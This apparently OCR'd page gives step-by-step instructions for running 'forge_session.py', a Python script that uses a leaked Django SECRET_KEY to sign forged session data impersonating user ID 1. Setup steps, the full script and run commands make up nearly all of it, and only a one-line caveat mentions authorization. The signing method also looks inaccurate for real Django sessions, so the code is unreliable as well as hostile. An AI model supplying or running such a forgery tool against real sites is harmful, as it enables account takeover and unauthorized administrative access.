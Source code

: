 To run the script that signs session data, you can place it in any folder that has access to your Django environment and dependencies. Here are the steps to properly run the script:

```bash
python3 -m venv .venv
source .venv/bin/activate
```

### Steps to Run the Script

1. **Ensure Django Environment**:
   - Make sure you have a working Django environment with all dependencies installed. This includes Django and any other required packages.

2. **Place the Script**:
   - You can place the script in any directory, but for convenience and to keep things organized, it’s a good idea to place it within your Django project directory.

3. **Create the Script File**:
   - Create a new Python file in your Django project directory. For example, you can name it `forge_session.py`.

4. **Activate Virtual Environment**:
   - If you are using a virtual environment, activate it. This ensures that the script runs with the correct dependencies.

   ```bash
   source path/to/your/virtualenv/bin/activate
   ```

5. **Run the Script**:
   - Navigate to the directory where the script is located and run it using Python.

   ```bash
   cd path/to/your/django/project
   python forge_session.py
   ```

### Example Directory Structure

Here’s an example of how your project directory might look:

```
my_django_project/
├── manage.py
├── my_django_project/
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
├── app_name/
│   ├── __init__.py
│   ├── admin.py
│   ├── apps.py
│   ├── models.py
│   ├── views.py
│   └── ...
├── forge_session.py  # <- Place your script here
└── ...
```

### Content of `forge_session.py`

Here’s the full content of the `forge_session.py` script:

```python
import json
import base64
from django.core.signing import Signer

# The SECRET_KEY from the leaked settings
SECRET_KEY = 'your-leaked-secret-key'

# Sample session data
session_data = {
    '_auth_user_id': '1',  # ID of the user to impersonate
    '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
}

# Serialize and sign the session data
session_data_json = json.dumps(session_data)
session_data_encoded = base64.b64encode(session_data_json.encode()).decode()
signer = Signer(key=SECRET_KEY)
signed_session_data = signer.sign(session_data_encoded)

print(f'Session Cookie: {signed_session_data}')
```

### Running the Script

1. **Navigate to the Project Directory**:
   ```bash
   cd path/to/your/django/project
   ```

2. **Run the Script**:
   ```bash
   python forge_session.py
   ```

### Important Notes

- **Security**: Running this script poses a significant security risk. Ensure that you understand the implications and that you have authorization to perform such actions.
- **Environment**: Make sure your environment variables and settings are correctly configured to avoid any unintended consequences.
- **Dependencies**: Ensure that all necessary dependencies, especially Django, are installed in your environment.

By following these steps, you can run the script to forge a session cookie using the leaked `SECRET_KEY`.
